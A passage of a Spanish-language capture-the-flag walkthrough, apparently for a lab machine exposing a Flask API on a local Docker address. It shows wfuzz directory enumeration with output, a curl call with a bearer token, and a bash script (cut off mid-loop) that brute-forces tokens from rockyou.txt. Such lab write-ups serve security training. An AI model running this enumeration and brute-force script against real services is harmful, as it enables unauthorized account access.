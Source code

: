 #### **http://172.17.0.2:5000/console**

Como se puede observar nos arroja una BadRequest, y probando con otros métodos se obtiene el mismo resultado

![image](https://github.com/user-attachments/assets/5f23ace2-62d4-4c66-aeaf-56a0a3417fd9)

La página principal nos proporciona los ejemplos de uso de la API, la dirección `http://localhost:5000/api/directorio_oculto` es la más tentadora. Con `wfuzz` realizaremos un escaneo para averiguar si exixte un directorio oculto en la ruta `/api` del sitio
```python
~/ApiRoot ᐅ wfuzz -c --hc=404 -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u "http://172.17.0.2:5000/api/FUZZ"
```

**Salida:**

```python
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000202:   401        3 L      5 W        31 Ch       "users" 
```
**Explicación de parámetros:**

- `-c`: Salida con color.
- `--hc`: Oculta en código de estado (404 en este caso).
- `-z`: Payload a utilizar acomañado de la wordlist.
- `-u`: Objetivo del ataque.

Suponiendo que `/users` es el directorio oculto, podemos utilizar el comando proporcionado en la guía de la API. Y como podemos ver, se puede acceder, pero sin autorización.
```python
~/ApiRoot ᐅ curl -H "Authorization: Bearer password_secreta" http://172.17.0.2:5000/api/users
```

**Salida:**

```python
{
  "error": "No autorizado"
}
```

---  

## Fuerza bruta 

Ahora que sabemos cual es el directorio oculto y un posible usuario, intentaremos hacer fuerza bruta con el comando `cURL` apoyandonos de un script de `bash`. El cual monstrará un mesnsaje exitoso si la contraseña es correcta. 
```bash
#!/bin/bash

URL="http://172.17.0.2:5000/api/users"
WORDLIST="/usr/share/seclists/Passwords/rockyou.txt"

while read -r token; do
    echo "Trying token: $token"
    
    response=$(curl -s -o /dev/null -w "%{http_code}" -H "Authorization: Bearer $token" "$URL")
    
    if [ "$response" -eq 200 ]; then
        echo "Success! Valid token found: $token"
        exit 0
    fi
```